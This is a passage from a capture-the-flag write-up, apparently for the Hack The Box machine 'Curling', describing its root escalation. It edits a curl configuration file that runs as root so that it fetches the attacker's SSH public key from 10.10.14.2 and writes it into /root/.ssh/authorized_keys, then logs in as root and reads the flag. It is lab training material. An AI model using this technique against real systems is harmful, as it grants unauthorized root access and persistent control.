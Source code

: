 From this, it appears that the `output` variable can be set within a configuration file to specify where the output of the `curl` command should be written. 

From here, the `input` file that acts as a configuration file for `curl` when run on the target system was changed as represented below.

```
url = "http://10.10.14.2/id_rsa.pub"
output = "/root/.ssh/authorized_keys"
```

After serving the SSH public key `id_rsa.pub` on the attacking system using `python -m SimpleHTTPServer 80`, the target system writes the contents of the attacking system's public SSH key to the target system's `/root/.ssh/authorized_keys` directory which allows the attacking system to SSH to the target system as `root`.

This process is shown below. The loop demonstrates starting Python's SimpleHTTPServer on the attacking system, editing the `input` file on the target system to interact with the attacking system, the target system requesting the attacking system's `id_rsa.pub` file, and finally accessing the target system as `root` over SSH. Note that the duration of one loop is ~30 seconds.

![root_pwn.gif](/assets/images/htb/curling/root_pwn.gif)

The `root.txt` flag can now be read.

```
root@curling:~# cat root.txt 
82c198ab<redacted>
```

